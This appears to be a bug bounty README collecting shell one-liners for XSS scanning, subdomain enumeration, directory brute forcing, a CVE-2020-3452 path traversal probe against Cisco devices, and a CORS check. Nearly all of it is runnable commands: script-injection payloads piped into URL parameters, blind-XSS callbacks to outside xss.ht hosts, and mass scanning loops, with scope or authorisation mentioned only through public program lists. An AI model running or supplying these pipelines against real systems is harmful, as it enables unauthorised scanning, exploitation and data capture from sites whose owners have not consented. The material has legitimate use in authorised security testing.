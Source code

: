 # For loops and one liners for bug bounty 
Credits goes to all those awesome researchers who uploaded these on Twitter and their GitHub  



## One Liners for XSS

### Using DALFOX to send the result for xss

```bash
cat target_list| gau | egrep -o "http?.*" | grep "="| egrep -v ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | dalfox pipe -blind https://yours.xss.ht -o result.txt
```

### XSS without GF Patterns

```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done

```

### Using Gospider with Dalfox to find XSS

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o output.txt
```

### Scan subdomains from Bounty Targets data Using DalFox for XSS

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; | subfinder -dL domains.txt | httpx -silent -threads 500 | tee -a subdomains.txt | dalfox file subdomains.txt -b your.xss.ht pipe

```
### Using Kxss for finding xss issues

```bash
cat http://subdomains.txt | waybackurls | kxss
```

### Using Gospider with qsReplace

```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg/onload=confirm(1);>'
```

************************************************************************************************************************************


## For Finding Subdomains AssetDiscovery  

### One liner to fetch all URLs in scope of all public programs @_ayoubfathi_

```bash
curl -s https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/hackerone_data.json | jq -r '.[].targets.in_scope[] | select(.asset_type|contains("URL")) | .asset_identifier' |grep -v "*" | sort
```


### From Bounty Targets Data @dwisiswant0

For Hackerone
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/blob/master/data/hackerone_data.json?raw=true | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type] | @tsv'

```
For Bugcrowd
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'

```
For Intigriti
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/intigriti_data.json | jq -r '.[].targets.in_scope[] | [.endpoint, .type] | @tsv'

```

### For Finding ASN's of a ORG using amass @KingOFBugBounty
```bash
amass intel -org paypal -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500''

```

### While Loop For Subfinder To Discovery new Subdoamins it will run Every 2 hours

```bash
while true; do subfinder -dL domains.txt -all | anew subdomains1.txt | httpx | notify ; sleep 7200; done
```
Note: Before running the above command make sure you do the below first:
Run `subfinder -dL domains.txt -all >> subdomains1.txt`

Install nuclei, subfinder, Notify and anew


### Brute Force List of subdomains using FFuf

```bash
for url in ` cat $filename `; do ffuf -c -w path.txt -u $url/FUZZ -o result.json ; done >> result.txt
```





If you are getting error jq not found then 
sudo apt-get install jq

(wildcard domains excluded)

### Find Subdomains using Subfinder and opens them on Firefox @payloadartists

```bash
subfinder -d $1 -silent -t 100 | httprobe -c 50 | sort -u | while read line; do firefox $line; sleep 10; done

```
### Using WaybackURL to find Excel File leads to PII Disclosure @M0_SADAT

```bash
gau http://hacked-site.com | waybackurls | grep ".xlsx"
```


### To find CVE 2020-3452 

```bash
while read domains.txt; do curl -s -k "https://$domains/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```







### CORS Missconfiguration @


```bash
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

```



